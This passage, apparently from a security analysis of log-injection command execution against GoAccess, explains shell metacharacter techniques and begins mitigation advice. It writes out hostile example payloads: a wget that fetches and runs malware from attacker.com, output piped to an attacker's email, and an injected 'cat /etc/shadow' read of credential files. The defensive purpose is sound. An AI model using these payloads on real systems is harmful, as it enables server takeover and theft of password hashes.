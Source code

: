 *   **Attack Vector:** The attacker leverages their understanding of shell syntax and the application's logging mechanisms to create log entries that, when processed by GoAccess, will be interpreted as commands by the shell.

*   **Mechanism:** Attackers utilize various shell metacharacters and techniques to achieve command execution:

    *   **Command Chaining:** Using characters like `;`, `&`, `&&`, `||` to execute multiple commands sequentially or conditionally.
        *   Example: `GET /index.php HTTP/1.1" ; wget http://attacker.com/malware -O /tmp/malware ; chmod +x /tmp/malware ; /tmp/malware`
    *   **Command Substitution:** Using backticks (`` ` ``) or `$()` to execute a command and use its output.
        *   Example: `GET /index.php?param=`whoami`` HTTP/1.1"`
    *   **Output Redirection:** Using `>`, `>>` to redirect command output to files.
        *   Example: `GET /index.php HTTP/1.1" > /tmp/evil.txt`
    *   **Piping:** Using `|` to pipe the output of one command to the input of another.
        *   Example: `GET /index.php HTTP/1.1" | mail attacker@example.com`
    *   **Environment Variable Manipulation:** In some cases, attackers might try to manipulate environment variables if they are used in subsequent commands.

*   **Example:** A seemingly normal log entry could be crafted to include a malicious payload:

    ```
    192.168.1.1 - - [23/Oct/2023:10:00:00 +0000] "GET /index.php?file=../../../../etc/passwd" ; cat /etc/shadow # HTTP/1.1" 200 1234 "-" "Mozilla/5.0"
    ```

    If the application or GoAccess later processes this log entry without proper sanitization, the shell might interpret `; cat /etc/shadow #` as a separate command to execute. The `#` character often signifies a comment in shell scripts, potentially allowing the attacker to hide the malicious command within a seemingly normal log line.

*   **Impact:** Successful crafting of malicious log entries leading to shell command execution is a critical vulnerability with severe consequences. It directly enables the attacker to execute arbitrary code on the server, leading to the impacts described in the "High-Risk Path" section (system compromise, data breaches, DoS, etc.). This node is the direct enabler of the high-risk path and requires immediate attention and mitigation.

---

### 5. Mitigation Strategies

To mitigate the risk associated with this attack path, the following strategies should be implemented:

*   **Input Sanitization and Validation:**
    *   **Strictly validate all user-provided input:**  Implement robust input validation on any data that could potentially influence the log file path or arguments passed to GoAccess. Use whitelisting to allow only expected characters and formats.
    *   **Escape shell metacharacters:**  Before using user-provided input in shell commands, escape or remove shell metacharacters (`;`, `|`, `&`, `$`, `` ` ``, etc.). Libraries and functions specific to the programming language being used can assist with this.
    *   **Avoid direct use of user input in shell commands:**  Whenever possible, avoid directly incorporating user input into shell commands. Explore alternative approaches that don't involve direct command construction.
